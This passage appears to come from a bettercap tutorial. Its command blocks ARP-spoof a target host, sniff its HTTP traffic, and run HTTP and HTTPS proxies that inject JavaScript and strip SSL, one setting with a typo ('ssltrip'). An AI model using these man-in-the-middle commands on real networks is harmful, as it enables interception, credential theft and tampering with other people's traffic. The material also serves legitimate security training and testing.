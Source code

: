 ### Session 3: Advanced Traffic Analysis
```bash
sudo bettercap -iface eth0

# Comprehensive setup for HTTP analysis
set arp.spoof.targets 192.168.1.100
set arp.spoof.fullduplex true
set net.sniff.local true
set net.sniff.output http_traffic.pcap
set net.sniff.filter "tcp port 80"

arp.spoof on
net.sniff on

# Monitor in real-time
events.stream
```

---

## 📡 HTTP/HTTPS Proxying

### HTTP Proxy Setup:
```bash
# Configure HTTP proxy
set http.proxy.address 0.0.0.0
set http.proxy.port 8080
set http.proxy.injectjs /path/to/script.js  # JavaScript injection
set http.proxy.sslstrip true               # SSL stripping

# Start HTTP proxy
http.proxy on

# Check status
http.proxy
```

### HTTPS Proxy Setup:
```bash
# Configure HTTPS proxy
set https.proxy.address 0.0.0.0
set https.proxy.port 8081
set https.proxy.ssltrip true
set https.proxy.injectjs /path/to/script.js

# Start HTTPS proxy
https.proxy on

# Check status
https.proxy
```
